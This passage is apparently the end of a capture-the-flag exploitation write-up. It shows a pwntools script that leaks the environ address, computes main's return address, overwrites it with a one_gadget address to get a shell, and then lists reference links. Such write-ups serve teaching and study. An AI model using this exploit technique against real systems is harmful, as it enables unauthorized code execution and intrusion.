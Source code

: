 ```python
    # get environ addr
    p.recvuntil(' # CONTENT: ')
    environ_addr = p.recvuntil('\n', drop=True).ljust(8, '\x00')
    environ_addr = u64(environ_addr)
    main_ret_addr = environ_addr - 30 * 8

    # set memo[0].content point to main_ret_addr
    edit(2, p64(main_ret_addr))
    # overwrite main_ret_addr with one_gadget addr
    edit(1, p64(one_gadget_addr))
    p.interactive()


if __name__ == "__main__":
    run()
```







## references


- https://www.slideshare.net/codeblue_jp/cb16-matsukuma-en-68459606

- https://gist.github.com/hhc0null/4424a2a19a60c7f44e543e32190aaabf

- https://bbs.pediy.com/thread-226119.htm
